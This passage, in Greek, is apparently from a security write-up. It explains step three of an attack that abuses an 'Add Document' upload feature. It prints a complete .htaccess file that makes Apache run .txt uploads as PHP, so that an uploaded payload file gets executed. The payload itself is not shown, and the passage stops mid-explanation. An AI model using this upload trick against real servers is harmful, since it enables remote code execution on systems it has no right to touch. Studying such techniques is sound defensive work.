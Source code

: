 <figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Μέρος 3 (εκμετάλλευση της δυνατότητας _Προσθήκη Εγγράφου_) <a href="#part-3-leveraging-feature-add-document" id="part-3-leveraging-feature-add-document"></a>

Το τελευταίο βήμα είναι το πιο απλό και χωρίζεται σε δύο υποβήματα. Το πρώτο είναι να ανεβάσουμε ένα αρχείο σε μορφή .htaccess για να εκμεταλλευτούμε τις οδηγίες του Apache και να επιτρέψουμε στα αρχεία .txt να ερμηνεύονται από τη μηχανή PHP. Το δεύτερο είναι να ανεβάσουμε ένα αρχείο .txt που περιέχει το payload μας.

Αρχείο: .htaccess
```
<Files *>
SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
php_flag engine on
</IfModule>
<IfModule mod_php7.c>
php_flag engine on
</IfModule>
<IfModule mod_php5.c>
php_flag engine on
</IfModule>
```
Γιατί είναι αυτό το κόλπο ωραίο;
